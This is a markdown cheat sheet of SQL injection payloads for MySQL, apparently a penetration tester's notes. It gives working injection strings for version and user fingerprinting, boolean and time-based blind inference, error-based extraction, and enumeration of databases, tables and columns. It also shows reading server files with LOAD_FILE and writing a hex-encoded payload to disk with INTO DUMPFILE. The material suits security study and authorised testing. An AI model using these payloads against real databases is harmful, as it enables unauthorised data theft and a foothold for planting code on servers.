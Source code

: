 # SQLi for [MySQL](https://www.mysql.com/)

## Things to remember
  *  [HackTricks has a page for this](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)
  *  The `LIKE` operator is **NOT** case sensitive
      *  Use the `BINARY` keyword to enforce case-sensitivity
  *  Stacked queries may or may not work [depending on the applicaton](https://media.defcon.org/DEF%20CON%2017/DEF%20CON%2017%20presentations/DEF%20CON%2017%20-%20muhaimin_dzulfakar-adv_mysql-wp.pdf)
  *  Boolean and time-based injections are versatile... get creative!

## Common errors
  *  `Illegal mix of collations` fixed by converting the problem input with `BINARY`
      *  Ex: `@@version` versus `BINARY @@version`
  *  `Subquery returns more than 1 row` fixed by using `group_concat()` to return a single value

## DBMS instance details
  *  DBMS version, running user, data directory, etc.
      *  Data directory used to [store MySQL stuff](https://dev.mysql.com/doc/refman/8.0/en/data-directory.html)

```
(SELECT @@datadir)
(SELECT @@version)
(SELECT version())
(SELECT user())
(SELECT system_user())
```

## Boolean-based blind
  *  Infer DB contents from true/false responses
  *  A simple way to induce this type of response is to use `OR`/`AND` operators
      *  More complex ways could also exist depending on the application

```
(SELECT TRUE WHERE database() LIKE '%')
(SELECT 1 WHERE database() LIKE '%')
(SELECT 1 WHERE ascii(SUBSTRING(database(), 1, 1)) < 127)
```

## Time-based blind
  *  Infer DB contents by forcing the server to wait and measuring response times
  *  [`SLEEP()`](https://dev.mysql.com/doc/refman/8.3/en/miscellaneous-functions.html#function_sleep) is obvious for this, but more exist
      *  Ex: [`BENCHMARK()`](https://dev.mysql.com/doc/refman/8.3/en/information-functions.html#function_benchmark) can be used to waste CPU cycles, creating a delay

```
(SELECT SLEEP(5) WHERE BINARY database() LIKE '%')
(SELECT SLEEP(5) WHERE ascii(SUBSTRING(database(), 1, 1)) < 127)
```

## Error-based
  *  Cause a MySQL error that contains the result of a subquery
      *  Useful if errors are rendered on the page
  *  `OR`/`AND` operators useful to include error-causing functions
  *  [PayloadsAllTheThings has a section](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based) covering this
  *  [`GTID_SUBSET()`](https://dev.mysql.com/doc/refman/8.3/en/gtid-functions.html#function_gtid-subset)/[`UPDATEXML()`](https://dev.mysql.com/doc/refman/8.3/en/xml-functions.html#function_updatexml)/[`EXTRACTVALUE()`](https://dev.mysql.com/doc/refman/8.3/en/xml-functions.html#function_extractvalue) functions useful for intentionally causing errors
      *  The function examples listed below are **NOT** used correctly... duh!

```
GTID_SUBSET(CONCAT(database(),0x0),0)
UPDATEXML(0x0,CONCAT(0x0a,database()),0x0)
EXTRACTVALUE(RAND(),CONCAT(0x0a,database()))
```

## Enumerate databases, tables, and columns
  *  List current database or all databases
      *  [`group_concat()`](https://dev.mysql.com/doc/refman/8.3/en/aggregate-functions.html#function_group-concat) used to return single-value from subquery
  *  List all tables or all tables within a given database
  *  List all columns within a given table
      *  Fuzz number of columns using `ORDER BY`/`UNION` operators

```
(SELECT database())
(SELECT group_concat(schema_name) FROM information_schema.schemata)
(SELECT group_concat(table_name) FROM information_schema.tables)
(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())
(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='exampleDB')
(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='exampleTable')
```

## System interaction
  *  Read/write files to/from the filesystem
      *  See [`@@secure_file_priv`](https://dev.mysql.com/doc/refman/8.3/en/server-system-variables.html#sysvar_secure_file_priv) variable to check for restricted file-write privs
      *  [`FILE`](https://dev.mysql.com/doc/refman/8.3/en/privileges-provided.html#priv_file) privilege needed, check [`USER_PRIVILEGES`](https://dev.mysql.com/doc/refman/8.3/en/information-schema-user-privileges-table.html) table for grantable privs of current user
      *  [`unhex()`](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_unhex)/[`ltrim()`](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_ltrim) used to avoid quotation escape situations
  *  Read files from filesystem using [`LOAD_FILE()`](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file)
      *  Returning `NULL` can indicate file perms issue or `apparmor`
      *  [`hex()`](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_hex) used to easily render file contents on page
  *  Write files to filesystem using [`SELECT INTO`](https://dev.mysql.com/doc/refman/8.0/en/select-into.html)
      *  Consider engineering a `UNION` that only returns the desired file contents
      *  `INTO OUTFILE` may cause formatting issues, `INTO DUMPFILE` does not do formatting
      *  `INTO` keyword not allowed within sub-queries

```
(SELECT @@secure_file_priv)
(SELECT group_concat(privilege_type) FROM information_schema.USER_PRIVILEGES WHERE replace(grantee,unhex(27),ltrim(unhex(20)))=user() AND is_grantable=unhex(594553))
(SELECT hex(LOAD_FILE("/path/to/file")))
SELECT unhex("[HEX ENCODED PAYLOAD]") INTO DUMPFILE "/path/to/new/file"
```
